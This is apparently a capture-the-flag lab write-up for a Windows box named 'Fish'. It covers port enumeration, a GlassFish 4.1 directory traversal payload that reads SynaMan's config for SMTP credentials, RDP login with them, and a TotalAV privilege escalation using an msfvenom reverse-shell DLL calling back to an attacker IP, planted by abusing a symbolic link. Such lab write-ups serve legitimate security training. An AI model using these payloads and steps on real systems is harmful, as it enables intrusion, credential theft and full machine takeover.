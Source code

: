 # Fish

### Enumeration

```
4848/tcp open  http                 Sun GlassFish Open Source Edition  4.1
6060/tcp open  http                 Synametrics Web Server 7 (Syncrify)
8080/tcp open  http                 Sun GlassFish Open Source Edition  4.1
8181/tcp open  ssl/http             Sun GlassFish Open Source Edition  4.1
```

http://192.168.234.168:6060/app - Synametrics Web Server 7 (Syncrify)

SynaMan - Synametrics File Manager 4.0

SynaMan 4.0 build 1488 - SMTP Credential Disclosure

https://www.exploit-db.com/exploits/45387

> C:\SynaMan\config>type AppConfig.xml

Oracle GlassFish Server 4.1 - Directory Traversal

https://www.exploit-db.com/exploits/39441

> The Administration Console of Oracle GlassFish Server, which is listening by default on port 4848/TCP, is prone to a directory traversal vulnerability. This vulnerability can be exploited by remote attackers to access sensitive data on the server being authenticated.
>
> GET /theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows/win.ini

view-source:http://192.168.177.168:4848/theme/META-INF/json%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afsynaman/config/appconfig.xml

```
<parameter name="smtpUser" type="1" value="arthur"></parameter>
<parameter name="smtpPassword" type="1" value="[REDACTED]"></parameter>
```

### Initial Access

```
$ xfreerdp /u:arthur /p:[REDACTED] /v:192.168.177.168:3389
```

### PrivEsc

TotalAV 4.14.31.0

TotalAV 2020 4.14.31 - Privilege Escalation

https://www.exploit-db.com/exploits/47897

https://www.youtube.com/watch?v=88qeaLq98Gc

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.177 LPORT=80 -f dll -o version.dll
```

Create these dirs: ForTotalAV -> MountPoint

Quick scan -> Custom Scan -> Add the file -> Start Custom Scan

Action -> Quarantine the file

Delete MountPoint Dir

Then create symbolic link:

mklink /j \Users\arthur\Desktop\ForTotalAV\MountPoint \Windows\Microsoft.NET\Framework\v4.0.30319

Then restore file -> restart computer -> finally get shell
